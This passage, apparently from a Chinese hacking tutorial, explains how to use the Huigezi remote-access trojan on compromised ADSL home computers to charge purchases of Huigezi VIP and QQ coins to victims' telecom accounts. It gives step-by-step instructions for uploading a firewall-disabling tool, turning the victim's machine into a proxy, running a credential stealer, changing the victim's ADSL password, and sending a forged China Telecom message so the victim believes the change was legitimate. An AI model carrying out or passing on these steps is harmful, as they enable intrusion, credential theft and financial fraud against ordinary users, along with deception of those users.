这里给大家讲讲充值灰鸽子要注意的以及全部过程，当然我这里用的是灰鸽子充值，你也可以利用 Radmin 或者别的来进行充值，方法前面讲过我这里不再重复了！当你利用前面给大家演示的一些批量入侵的方法，获得了大量的 ADSL 肉鸡之后，我们要做的就是开始从中挑选出可用鸡，然后登录互联星空 shopping！首先要想充值灰鸽子，你必须用消费金额大于等于 100 元的地区的 ADSL 帐号来进行充，为什么？因为灰鸽子在互联星空的价格是 100/套，所以你用的 ADSL 帐号中必须有大于或者等于 100 元的消费金额，这样才能买到！

当找到一台有 100 元的 ADSL 肉鸡时，我们来看如何充灰鸽子，首先就是用灰鸽子上传关闭防火墙的利器 xp.exe，上传后再用灰鸽子的“远程打开”→“隐藏运行”来打开，如图1。

看到左下角打开成功的字样说明已经成功运行了，现在对方防火墙已经关闭了，下面就是开代理了，我们用灰鸽子的“远程控制命令”→“代理服务”→随便填入一个端口，然后点击下面的“开启服务”，如图2。

可以看到中间窗口出现“打开 Http 代理命令执行完毕！”说明代理开启成功，可以用 TT 或者 IE 等浏览器，这里我比较喜欢用 TT，纯属个人喜好，大家不一定就非要用 TT 来连接代理。选择上面的“工具”→“WWW 代理”→“设置代理”，如图3。弹出“代理服务器设置”的对话框，如图4。在其中填入你刚刚打开代理的 ADSL 肉鸡的 IP 以及端口，如图5。

然后点击应用，注意设置完后一定要将代理勾上来应用这个代理上网，如图6。我们访问www.ip138.com看看IP是否变了，如图7。从图中可以看出IP变成了肉鸡里的IP，我们现在再来看它的ADSL帐号密码，上传前面教大家制作的免杀的ADSL密码读取的东西，上传成功后再用灰鸽子的“远程打开”→“正常运行”，如图8。

这里也可以用“隐藏运行”，因为我们做的这个ADSL密码读取器，即使是正常运行也是没有任何反应的，再来右键单击空白处在灰鸽子上面刷新看看是否生成保存帐号密码的html文件，如图9。成功生成，我们选择用本地打开看看帐号密码，如图10。

成功得到ADSL帐号密码，现在我们登录互联星空www.chinanet.com，选择页面上方的“登录”，如果看不见登录可以先把代理去掉，因为代理主要是在登录时使用，在其中输入帐号密码以及这台ADSL肉鸡所在的省，如图11。如果刚刚去掉代理的朋友记得在这里重新勾上使用代理，然后点击“登录”，登录成功我这里来到了“互联星空”服务条款，如图12。

一般出现这个的都是说明这个ADSL帐号第一次登录互联星空，我们点击“我接受”进行登录，成功后，再去“我的星空”看看还有多少钱，如图13。正好100元，现在我们来充灰鸽子！在哪充呢？可以先输入http://www.softreg.com.cn这个地址来到互联星空软件园，然后依次打开主页上面的“互联网”→“远程控制”，在下面的产品中找到灰鸽子了，如图14。或者直接输入：http://www.softreg.com.cn/shareware_view.aspx?id=/731B7CB5-CF6F-4C46-BA78-3E2F139AB3BA/。

来到灰鸽子注册页面，如图15。这里我来详细给大家讲讲如何购买，在购买要填写的表单中其中“注册数量”、“购买或续费”、“E-Mail 1”、“E-Mail 2”建议大家都要填写，其中“购买或续费”如果你是第一次购买那么就填写“购买”，如果你是第二次购买可以填写“续费”，后面最好加上括号填入你在灰鸽子论坛注册的用户名www.huigezi.com/bbs，来看看我填写的，如图16。

其它的默认不用填写，然后再将网页往下拉，在“付款方式”这里我们将“互联星空代收费平台”前面勾选上，如图17。然后点击下面的“提交订单”按钮，在如图18所示的地方，我们接着选择“同意用户协议”，接着来到如图19，点击“确认此订单，取得订单号”，来到如图20。选择“到互联星空平台交费”，终于来到了期待已久的确认支付页面，如图21。

点击“确认”，等待一会儿，具体多长时间还是要看你代理的速度，然后会弹出“购买成功”的对话框，这里大家一定要注意了，千万不要点击确定后马上关掉浏览器，这样虽然看到购买成功的对话框，但实际还是没有买上，必须看到如图22所示的结果才能说明购买成功了！

否则，只看到那个购买成功的对话框只能说明是付费成功，并没有购买成功，只能是白白浪费100元！还有在成功购买灰鸽子后互联星空会自动给你的邮箱发送“付款确认通知”的邮件，如图23。

然后你要做到就是等待了，第二天你就会收到灰鸽子工作室发给你的灰鸽子VIP的使用帐号以及密码，建议大家将密码修改一下再使用！

## 6.17 充QB时注意的两个细节

这里将我在充QB中经常遇到的两个问题，同样也是大家在充值的时候会遇到的两个问题，给大家说说：

#### 一、密码过于简单，互联星空不让登录

大家在登录互联星空的时候有没有遇到过这种情况，就是合法的身份已经构造出来了，即满足了ADSL帐号密码以及对应的IP这两个条件，可是在点击“登录”时，却弹出密码过于简单的要求修改的对话框，如图1。当然有些可以点击“确定”后正常登录充值，但是还有一些确定之后再弹出，如图2。是不是很郁闷？互联星空要求你将密码修改一下再登录，原因是密码过于简单防止被盗！

很多人到了这里就不知道怎么做了，看到这个错误提示被挡在门外了，只有放弃了吗？好不容易构造了合法身份登录，却出现这个，总不是到嘴的肉吃不上？下面我来教大家遇到这种情况后怎么办。既然它让我们改密码，那我们就去改好。可以去这个ADSL所在省的XX热线，比如甘肃热线、辽宁热线等。进入后通过电信ADSL连接或电信网费查询系统链接，输入你获得的ADSL帐号密码进入用户自助服务页面，在其中就会看到一个修改密码选项。

这里修改密码还是有一个技巧的，比如原来的密码是123456，我们在新密码前加入一个“a”，这样也能登录互联星空。密码组合只要不是纯数字就可以登录互联星空了！

我举个具体的例子吧！假如我们现在要找陕西用户修改密码的地方，我们打开baidu，在其中输入“陕西热线”或者“陕西在线”，如果不行再试“陕西电信”“陕西ADSL”，如图3。第一个就是陕西省的古城热线了，我们进去找找修改密码的地方，打开看看，一会功夫就能在首页上面一个显眼的地方看到，如图4，点击“上网服务中心”就来到陕西省ADSL电信用户修改密码的地方了，如图5。点击左边的“修改ADSL服务密码”，就是修改ADSL上网的帐号密码了，如图6。接着再用修改后的密码登录互联星空就能成功登录充值了。

入他的IP试试，要是弹出输入密码的对话框，可以再试试默认的宽带路由密码，进去后就跟当年利用广东帐号密码充QB时找帐号密码的方法是一样的！还有再确认这台机子能不能充值前，最好先在DOS下输入`ipconfig /all`来看看对方是不是局域网共享上网的，如果返回下面的结果可能就是局域网了：


```
IP Address        192.168.1.3
Subnet Mask       255.255.255.0
Default Gateway   192.168.1.1
```

像192.*.*.*这样的IP就是局域网的标志了！大家在充值的时候注意一下就可以了！看看局域网的IP是这个形式吗：

```
PPP adapter 宽带连接:
Connection-specific DNS Suffix:
Description ............ WAN (PPP/SLIP) Interface
Physical Address ....... 00-53-45-00-00-00
Dhcp Enabled ........... No
IP Address ............. 222.41.156.151
Subnet Mask ............ 255.255.255.255
Default Gateway ........ 222.41.156.151
DNS Servers ............ 61.232.202.158
                         61.134.1.4
```

充完之后我们可能会问，我们修改了人家的密码，那么他下次不是上不了网了？这个我早想到了，所以也想出了一个办法，就是利用灰鸽子自带的发送“消息广播”……我们选择“图标类型”为警告，按钮类型选择“确定”，“消息标题”中输入“中国电信信史服务”……“消息正文”中输入：

“XXXX（将XXX换成他的宽带帐号）您好，中国电信系统在每月宽带密码防盗检测中发现您的密码过于简单，密码必须有数字加字母的组合，为了防止您的密码被盗，系统已将您的密码默认修改为‘a4825533’，您的原始密码为‘4825533’，请您及时查收！中国电信谢谢您的支持！”

如图7。再点击发送将这个对话框发送到对方的屏幕上去，如图8。这样对方就会以为真的是电信为了保护用户修改了他的密码！当然其中的具体语句大家可以发挥自己的想象力来构造！


## 二、是ADSL却没有上网帐号

这个比较好解释，就是对方是通过共享宽带来上网，好几个人用一个帐号上网，靠的是路由器，你可以试试直接在浏览器中输入……